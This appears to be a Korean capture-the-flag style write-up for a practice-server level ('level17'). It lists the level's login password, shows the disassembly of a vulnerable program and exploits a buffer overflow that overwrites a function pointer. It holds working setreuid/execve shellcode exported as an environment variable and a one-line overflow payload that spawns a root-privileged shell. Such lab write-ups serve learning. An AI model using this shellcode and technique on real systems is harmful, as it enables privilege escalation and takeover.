



# level 17

* id : `level17`
* pw : `king poetic`



음.. 이번엔 `call` 함수에 쉘코드를 실행하게끔 하면 될듯 하다.


```python
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38                     # 할당받은 버퍼 크기
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490 # printit() 의 주소
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]                 # buf 주소
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
```

이전에 푼 문제들처럼, 환경변수를 이용한 익스를 짜보겠다.

```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```



쉘코드 환경변수 주소는 `0xbffffc7a` 임을 확인, 이를 *(call) 에 뒤집어씌우면 성공이다.

```bash
(python -c "print 'A'*40 + '\x7a\xfc\xff\xbf'" ; cat) | ./attackme
```




GG!